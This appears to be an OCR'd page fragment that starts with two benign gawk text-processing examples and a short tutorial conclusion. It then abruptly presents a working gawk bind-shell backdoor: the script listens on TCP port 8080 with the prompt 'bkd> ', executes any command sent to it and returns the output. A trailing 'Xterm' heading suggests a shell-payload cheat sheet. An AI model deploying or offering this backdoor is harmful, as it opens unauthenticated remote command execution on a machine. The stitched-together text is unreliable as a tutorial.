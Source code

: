```
gawk '{ print $2 }' file.txt
```

- Calculate the sum of the numbers in the third column of a CSV file:

```
gawk -F ',' '{ sum += $3 } END { print sum }' file.csv
```

### Conclusion

Gawk is a versatile tool for text processing and data manipulation. By using its powerful features, you can extract and analyze data from files with ease.
```bash
#!/usr/bin/gawk -f

BEGIN {
Port    =       8080
Prompt  =       "bkd> "

Service = "/inet/tcp/" Port "/0/0"
while (1) {
do {
printf Prompt |& Service
Service |& getline cmd
if (cmd) {
while ((cmd |& getline) > 0)
print $0 |& Service
close(cmd)
}
} while (cmd != "exit")
close(Service)
}
}
```
## Xterm

